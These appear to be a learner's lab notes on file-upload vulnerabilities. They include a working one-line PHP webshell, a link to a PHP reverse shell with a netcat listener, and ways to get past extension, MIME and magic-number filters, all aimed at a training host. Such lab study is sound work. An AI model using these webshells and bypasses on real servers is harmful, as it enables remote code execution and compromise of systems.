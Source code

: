 be the way to **Remote Code Execution(RCE)**

vulns:
* Overwriting existing files
* Upadloing & executing shells
* Bypassing Client-Side filtering
* Bypassing Server-Side filtering
* Fooling content type validation checks

## Methodology
**enumeration is key**

looking source code to find client-side filtering vuln
scanning with a directory bruteforcer : `sudo apt install gobuster`


## Overwriting Existing Files
when files are uploaded to server, server should ensure the file will not overwrite anything which alreading exists on server.

Common practice:
* Assign file with a new name or random name

### if we don't have overwriting check
we found the website display the image with `images/spaniel.jpg`
![](https://i.imgur.com/9FNtNHG.png)

if we have website like this, we can upload our `spaniel.jpg` to overwriting existing file as attack
![](https://i.imgur.com/89xgC1m.png)

## Remote Code Execution
RCE tends to be uploading a program with same language as back-end like PHP.

basic way:
* webshells
* reverse shells

A fully featured reverse shell is our ideal goal for an attacker.
But webshell may be the only option available.

### Web shells
if we have a website like this
![](https://i.imgur.com/aM0IIQc.png)

we can start with gobuster scan
![](https://i.imgur.com/UEmOcxL.png)

we can found our uploads might go go `/uploads`
and after we uploaded something, we can go to `http://demo.uploadvulns.thm/uploads` to check the result\

![](https://i.imgur.com/cRDq9DL.png)

a simple webshell in PHP:
```php
<?php
    echo system($_GET["cmd"]);
?>
```

and we can use URL parameter to execute some command like this:
`http://demo.uploadvulns.thm/uploads/webshell.php?cmd=id;whoami;ls`
it would execute 
```bash
$ id
$ whoami
$ ls
```

### Reverse Shells
using ubiquitous *Pentest Monkey reverse shell* here

we can get the php payload [here](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
)

remember to change the ip in `php-reverse-shell.php`
![](https://i.imgur.com/cxGA4Bd.png)


and we start our Netcat listener:
```bash
$ nc -lvnp 1234
```

we upload the reverse shell file and we can navigating to `http://demo.uploadvulns.thm/uploads/shell.php`, starting the shell

finally we get a fully shells in our netcat
![](https://i.imgur.com/vZoBDtm.png)



## Filtering

* client-side filtering would run in our browser.
* Filtering occurs before the file uploaded to the server
* javascript is ubiquitous client-side scripting language.

Filtering kinds:
* Extension Validation : identify the contents of a file
	* Blacklist Extension
	* Whitelist Extension
* File Type Filtering
	* **Multipurpose Internet Mail Extension**(MIME) **validation** : transfer attach over email or HTTP(S)
	* **Magic number validation**
* File Name filtering
* File Length filtering out null byte
* Flie Content filtering

### Client-side
* Turn off javascript in browser
* Intercept & modify incoming page : using Burpsuite before the web page is loaded
* Intercept & modify file upload
* Send the file directly to the upload point : using `curl` to send the POST

remember to use GOBUSTER!


exmaple of whitelist code :
![](https://i.imgur.com/XRDetca.png)

by default BurpSuite would not intercept external js files
remove the `^js$|` in first line in options:
![](https://i.imgur.com/su3Ugwp.png)


reload homepage & Intercept the **response to this request** & forward:
![](https://i.imgur.com/yZDbm47.png)

if the functions are not inline:
Forward to the right script & Intercept the** Response to this request**
![](https://i.imgur.com/siOxfsG.png)

### Server-side
a example of php code to filter out
```php
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

* this code search for the last period `.`
* block out `.php` `.phtml`
* most of them only block this 2 extensions, but we can use `.php5` `.phar`
* especially for the system that didn't update the filter configuration


some code may use finding `.jpg` in whitelist function, like this:
```
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

### Magic number
magic number is a string of hex digits as identifier of files.
Really effective against a PHP based webserver.

for instance : `FF D8 FF DB` is stand for `.jpg` file
when we use `$file shell.php`, the result depends on magic number
![](https://i.imgur.com/08aKjnW.png)

we can prepend some meanless character in first line:
![](https://i.imgur.com/uuUH0vj.png)

in hex editor(e.g. **Bless**), we can change the meanless character (`"AAAA"`) to `FF D8 FF DB`
![](https://i.imgur.com/IFl9Aa8.png)

sometimes *directory indexing* has been turned off, but we can directly navigate to the uploads like : `/graphics/php-reverse-shell.php`

### Methodology
1. Check the web application built with which language or framework, headers like `server` `xpowered-by` in Burp might gain informations.
2. Found uploading page, looking at source code and checking if any client-side filter
3. First attempt with innocent file upload, check can we access the file we uploaded.
	1. embedded in page?
	2. naming scheme of website?
	3. gobuster `-x` switch can used to look for specific extensions
4. uploading some malicious file
5. with invalid file extension
	1. upload successfully -> *blacklist*
	2. upload fails -> *whitelist*
6. re-Upload the accepted file and change the magic number, if uploads failed the server is using magic number filter
7. re-upload the accepted file and change the MIME type of the upload
8. Enumerating *file length filter* with small file, then uploading progressively bigger until hit the filter